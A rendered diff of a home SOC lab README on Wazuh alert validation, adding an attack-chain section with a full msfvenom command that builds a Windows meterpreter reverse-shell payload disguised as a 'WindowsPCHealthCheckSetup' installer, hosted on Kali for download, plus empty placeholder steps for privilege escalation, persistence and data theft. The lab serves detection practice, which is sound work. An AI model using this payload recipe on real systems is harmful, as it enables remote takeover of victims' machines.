

Before and after one commit to san1cs/SOC_Home_Lab, a Markdown page: 9_Wazuh_Deployment_&_Alert_Validation/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/9_Wazuh_Deployment_&_Alert_Validation/README.md
+++ b/9_Wazuh_Deployment_&_Alert_Validation/README.md
@@ -160,14 +160,22 @@
 
 ### 4.1.Full Attack Chain: Command and Control (C2)
 
-* Creating a malware uisng msfvenom ``.
+* Creating a malware uisng msfvenom `sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.251.3 LPORT=4444 --platform windows -a x64 -f exe -o WindowsPCHealthCheckSetup.msi.exe`.
 
-* Hosted it on `/var/www/html/WinUpdatex64` in kali.
+* Hosted it on `/var/www/html/WindowsPCHealthCheckSetup.msi.exe` in kali.
 
-* * _Windows defender real time protection is turned off for this lab demonstration._
+* _Windows defender real time protection is turned off for this lab demonstration._
 
-* Downloading the malware from `http://192.168.251.3/WinUpdatex64` and running it on windows to make the remote connecion for command and control.
+* Downloading the malware from `http://192.168.251.3/WindowsPCHealthCheckSetup.msi.exe` and running it on windows to make the remote connecion for command and control.
 
 * Meterpreter session opened in multi/handler.
 
-### 4.2.Post-Exploitation Analysis: Detecting C2 Persistence and Lateral Movement
+* **Executing Privilege Escalation:** ``
+
+* Deleting/Moving the malware deep inside the system ``
+
+* **Setting Persistence:** ``
+
+* Stealing/Damaging the data.
+
+### 4.2.Post-Exploitation Analysis: Privilege Escalation and Detecting C2 Persistence
```
